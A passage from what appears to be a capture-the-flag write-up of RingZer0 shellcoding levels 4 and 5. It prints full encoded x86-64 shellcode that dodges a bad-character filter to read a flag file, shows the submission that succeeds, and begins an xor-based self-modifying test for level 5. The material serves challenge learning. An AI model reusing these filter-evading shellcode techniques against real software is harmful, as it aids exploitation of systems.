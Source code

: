 After running this python script, I ended up with the completed shellcode:

```python
$ python ./encode.py 
\x4c\x8d\x35\x8b\x56\x34\x12\x49\x81\xee\x78\x56\x34\x12\x6a\x2b\x59\x41\xfe\x0e\x49\x83\xc6\x01\xe2\xf7\x6b\x01\x5c\x54\x59\x54\x60\x55\x5f\x6b\x13\x5b\x10\x06\x54\x59\x35\x03\x58\x57\x60\x5f\x10\x06\x51\x57\x58\x5f\x59\x60\x6b\x80\x5b\x10\x06\x54\x59\x35\x02\x51\x60\x10\x06\xc4
```

As you can see, there are no badchars in this shellcode. We can send it over and grab the flag!

```bash
RingZer0 Team CTF Shellcoding Level 4
Submit your shellcode using hex representation "\xcc\xcd".
Type "end" to exit.

This level have shellcode restriction. Bad char list "\x0a\x0d\x2f\xff\x0f\x05\x48" max size 80 bytes.
You main goal is to read /flag/level4.flag

shellcode>\x4c\x8d\x35\x8b\x56\x34\x12\x49\x81\xee\x78\x56\x34\x12\x6a\x2b\x59\x41\xfe\x0e\x49\x83\xc6\x01\xe2\xf7\x6b\x01\x5c\x54\x59\x54\x60\x55\x5f\x6b\x13\x5b\x10\x06\x54\x59\x35\x03\x58\x57\x60\x5f\x10\x06\x51\x57\x58\x5f\x59\x60\x6b\x80\x5b\x10\x06\x54\x59\x35\x02\x51\x60\x10\x06\xc4
    Shellcode received...
    Shellcode length (70) bytes.

    Success: Executing shellcode...

/flag/level4.flag^@
FLAG-<redacted>
Connection to shellcode.ringzer0team.com closed.
```

Level 5
-------

Of course, level 5 increases the bad char list even further...

```
Bad char list "\x0a\x0d\x2f\xff\x0f\x05\x68" and \x40 to \x65 max size 100 bytes.
```

We can no longer use the relative addressing with `lea`, because of the bad chars `0x49` and `0x48`. In fact, I was unable to get the address of the shellcode via any techniques I know. 

I assumed that this shellcode is being executed via a instruction like `call rax`. That means that `rax` would still contain the pointer to the shellcode. If this is the case, we can re-use the value in `rax` as an index to the shellcode and use it to carve out the 'real' shellcode via `xor` instructions. But let's first test this hypothesis. Time to get creative! 

I made a small piece of shellcode that tests this hypothesis:

```
bits 64

default rel

_start:
xor dword [rax+_temp-_start], 0x3d283d28        ; the xor will change the rets to jmp $-2!

nop
nop
nop
nop
nop
nop
nop

_temp:
```